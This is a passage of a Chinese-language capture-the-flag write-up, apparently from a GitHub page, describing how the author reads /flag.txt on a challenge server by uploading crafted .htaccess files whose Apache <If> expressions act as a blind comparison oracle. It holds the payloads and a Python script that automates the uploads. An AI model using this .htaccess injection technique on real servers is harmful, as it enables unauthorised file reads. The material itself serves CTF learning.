 我一開始用的 payload 是

```apache
<If "file('/flag.txt') < 'flag{ABCD'">
ErrorDocument 404 "leq"
</If>
```

不過因為 escape char 的問題只偷得到部份的 flag，把單引號跟雙引號都 escape 掉之後還是有一部分偷不到，不知道怎麼解決，最後是翻到有一個 base64 function 就把 payload 改成

```apache
<If "base64(file('/flag.txt')) < 'RkxBR3tXa'">
ErrorDocument 404 "leq"
</If>
```

最後的 script:

```python
import requests
from bs4 import BeautifulSoup
from tqdm import tqdm
from base64 import b64decode

# https://httpd.apache.org/docs/2.4/expr.html
# https://stackoverflow.com/questions/22567306/how-to-upload-file-with-python-requests

url = 'https://gist.ctf.zoolab.org/'

def upload(payload):
    with open('.htaccess', 'wb') as file:
        file.write(payload.encode())
    with open('.htaccess', 'rb') as file:
        res = requests.post(url, files={'file': file})
        # soup = BeautifulSoup(res.text, feature="lxml")
        path = res.url
        path = path[:path.rfind('/') + 1]
    return path

# <If "file('/flag.txt') =~ m#flag{a#i">
def ask_leq(s):
    s = s.replace('\\', '\\\\')
    s = s.replace('\'', '\\\'')
    s = s.replace('\\', '\\\\')
    s = s.replace('"', '\\"')
    # print(s)
    payload = f'''<If "base64(file('/flag.txt')) < '{s}'">
    ErrorDocument 404 "leq {s[-1]}"
    </If>'''
    path = upload(payload)
    res = requests.get(path + 'something404')
    leq = 'leq' in res.text
    # assert '500 Internal Server Error' not in res.text
    return leq

def ask_size_leq(n):
    payload = f'''<If "filesize('/flag.txt') -le {n}">
    ErrorDocument 404 "leq {n}"
    </If>'''
    path = upload(payload)
    res = requests.get(path + 'something404')
    leq = 'leq' in res.text
    assert '500 Internal Server Error' not in res.text
    return leq

# prefix = 'FLAG{Wh4t_1f_th3_WAF_b3c0m3_preg_match('
```